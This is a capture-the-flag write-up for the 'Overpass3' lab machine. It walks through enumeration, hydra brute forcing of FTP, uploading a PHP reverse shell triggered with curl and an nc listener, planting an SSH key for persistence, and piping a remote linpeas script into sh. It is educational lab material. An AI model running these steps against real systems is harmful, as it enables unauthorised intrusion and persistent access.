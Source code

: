 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

[![https://imgur.com/NwY6p02.png](https://imgur.com/NwY6p02.png)](https://imgur.com/NwY6p02.png)

[![https://imgur.com/QadWFuO.png](https://imgur.com/QadWFuO.png)](https://imgur.com/QadWFuO.png)

James sshkey

[![https://imgur.com/aBzhZ62.png](https://imgur.com/aBzhZ62.png)](https://imgur.com/aBzhZ62.png)

[![https://imgur.com/MK1dtEI.png](https://imgur.com/MK1dtEI.png)](https://imgur.com/MK1dtEI.png)

Our own creation of a SUID binary rev shell :D 

[![https://imgur.com/TrSo1Zl.png](https://imgur.com/TrSo1Zl.png)](https://imgur.com/TrSo1Zl.png)

Trying this tutorial to get something out of it but it doesnt work ..

https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
